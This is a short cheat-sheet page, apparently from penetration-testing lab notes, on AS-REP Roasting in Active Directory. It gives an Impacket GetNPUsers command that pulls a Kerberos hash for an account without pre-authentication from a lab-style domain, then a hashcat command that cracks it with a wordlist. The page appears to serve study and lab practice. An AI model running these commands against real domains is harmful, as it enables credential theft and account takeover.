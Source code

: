 # AS-REP Roasting

## Introduction

<mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.

* Check with the following command:

```python
Get-NPUsers.py LICORDEBELLOTA.HTB/Kaorz -dc-ip <IP> -no-pass

# You will get a TGT hash. Save the hash in a file and crack the hash

hashcat -m 18200 hash rockyou.txt
```
